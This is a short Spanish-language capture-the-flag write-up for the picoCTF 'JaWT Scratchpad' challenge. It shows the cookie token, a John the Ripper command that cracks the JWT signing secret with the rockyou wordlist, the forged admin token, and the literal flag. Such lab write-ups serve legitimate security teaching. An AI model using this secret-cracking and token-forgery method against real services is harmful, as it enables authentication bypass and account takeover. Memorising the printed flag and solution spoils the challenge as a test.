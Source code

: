 # JaWT Scratchpad
## Objetivo
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/61864/` or http://jupiter.challenges.picoctf.org:61864

## Solución 
Se visita pagina con la direccion adjunta, se observa una pagina en la que si nos registramos se observa:
![[img-login_jawt.png]]

Se inspeccionan las cockies con la extencion del navegador *Cockie Editor*, y se obtiene:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.-vh-85mhRjMzTUsaJEWhgJwu-_EzDOy8zI0a9dik2Ww
```

Se guarda en un archivo
```bash
hone@Unidad03:/tmp$ echo eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.-vh-85mhRjMzTUsaJEWhgJwu-_EzDOy8zI0a9dik2Ww > token
```

Es necesario modificar la cockie con la ayuda de un desincriptador, pero es necesario obtener la *VERIFY SIGNATURE*, para eso es necesario hacerlo de la siguiente manera:

```bash
hone@Unidad03:/tmp$ john token -w ~/usr/share/wordlists/rockyou.txt
ilovepico
```

Despues cambiamos el usuario y el *VERIFY SIGNATURE* de la siguiente manera:

![[img-arreglado.png]]

En seguida se copia, pega y guarda el tocken generado con la ayuda de *Cockie Editor*

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```

Al recargar se obtiene la bandera

![[img-bandera_jawt.png]]

Bandera: *picoCTF{jawt_was_just_what_you_thought_1ca14548}
## Referencias
https://es.wikipedia.org/wiki/JSON_Web_Token

https://jwt.io/